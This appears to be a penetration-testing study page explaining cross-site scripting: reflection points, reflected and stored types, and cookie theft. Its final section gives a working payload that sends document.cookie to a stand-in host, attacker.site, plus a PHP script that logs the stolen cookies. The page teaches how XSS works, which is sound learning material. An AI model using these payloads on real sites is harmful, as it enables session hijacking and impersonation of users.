 # Cross Site Scripting

Cross Site Scripting (XSS) is a vulnerability that lets an attacker control some of the content of a web application

By exploiting a XSS, the attacker can target the web app users

An attacker can:

* Modify the content of the site at run-time
* Inject malicious contents
* Steal the cookies, thus the session, of a user
* Perform actions on the web app as if it was a legitimate user
* And much more

XSS vulnerabilities happen when a web app uses unfiltered user input to build the output content displayed to its users

This lets an attacker control the output HTML and JS code, thus attacking the app users

User input is any parameter coming from the client side of the web app such as:

* Request headers
* Cookies
* Form inputs
* POST parameters
* GET parameters

Such inputs should be validated server side by well-implemented security functions that should sanitize or filter users' input

{% hint style="danger" %}
Never, ever, trust user input!
{% endhint %}

Most of the time, victims of XSS attacks are the users/visitors of a site (could even be an admin)

XSS involves injecting malicious code into the output of a web page, which is then rendered (or executed) by the browser of the visiting users

It can be really hard to notice an attack in progress because most of the time, attacks are very subtle and do not involve any visible change to the vulnerable site

Attackers user XSS to attack the users of a website by:

* Making their browsers load malicious content
* Performing operations on their behalf, like buying a product or changing a password
* Stealing their session cookies, thus being able to impersonate them on the site

## Finding an XSS

You have to look at every user input, and test if it is somehow displayed on the output of the web application

![A search parameter is submitted through a form and gets displayed on the output (Reflection point). Searched string is passed through a GET parameter](<../../../../.gitbook/assets/image (6) (1) (1).png>)

After finding a reflection point, you have to understand if you can inject HTML code and see if it somehow gets to the output of the page; this lets you control the output page

Looking at the HTML sources of the output page helps to understand how to build an XSS payload

![](<../../../../.gitbook/assets/image (4) (1).png>)

![The injected \<i> tag outputted "test string" in italics so the HTML has been interpreted](<../../../../.gitbook/assets/image (14) (1) (1) (1).png>)

To test the XSS, you can inject some valid HTML/JS code like:

```javascript
<script>alert('XSS')</script>
```

Although according to this video, we should be mindful when doing that

{% embed url="https://www.youtube.com/watch?t=73s&v=KHwVjzWei1c" %}

To exploit an XSS vulnerability, you need to know the type of XSS attack you are carrying out: reflected, persistent or DOM based

## Reflected XSS Attacks

Happen when the malicious payload is carried **inside the request** that the browser of the victim sends to the vulnerable website

Triggered by posting a link on a social network or via a phishing campaign. When users click on the link, they trigger the attack

Some browsers like Chrome have a reflected XSS filter built in so they will not run some XSS reflected attacks

![](<../../../../.gitbook/assets/image (18) (1) (1) (1).png>)

However, they can only filter trivial and known XSS attacks since there are advanced methods that can bypass anti-XSS filters

## Persistent XSS Attacks

Cannot be blocked by Anti-XSS filters

Occur when the payload is sent to the vulnerable web server and then **stored**.&#x20;

* When a web page of the vulnerable website pulls the stored malicious code and puts it within the HTML output, it will deliver the XSS payload.

Malicious code gets delivered each and every time a web browser hits the "injected" web page.

The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users

* Elements like comments, user profiles, and form posts are a potential vector for attacks

Example: If an attacker manages to inject a malicious script in a forum post, every person opening that post will run the script; this, for example, could let an attack silently steal visitors' cookies and impersonate them without even knowing their login credentials



## Cookie Stealing via XSS

JS can access cookies if they do not have the HttpOnly flag enabled

In many cases, stealing a cookie means stealing a user session

For example, you can display the current cookies using:

```javascript
<script>alert(document.cookie)</script>
```

![](<../../../../.gitbook/assets/image (5) (1) (1).png>)

This code sends cookie content to an attacker-controlled site

```javascript
<script>
var i = new Image();
i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

The script generates an image object and prints its `src` to a script on the attacker's server

The browser cannot tell in advance if the source is a real image, so it loads and executes the script, even without displaying any image which means the cookie is actually sent to the attacker.site

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

The `log.php` script saves the cookie in a text file on the attacker.site
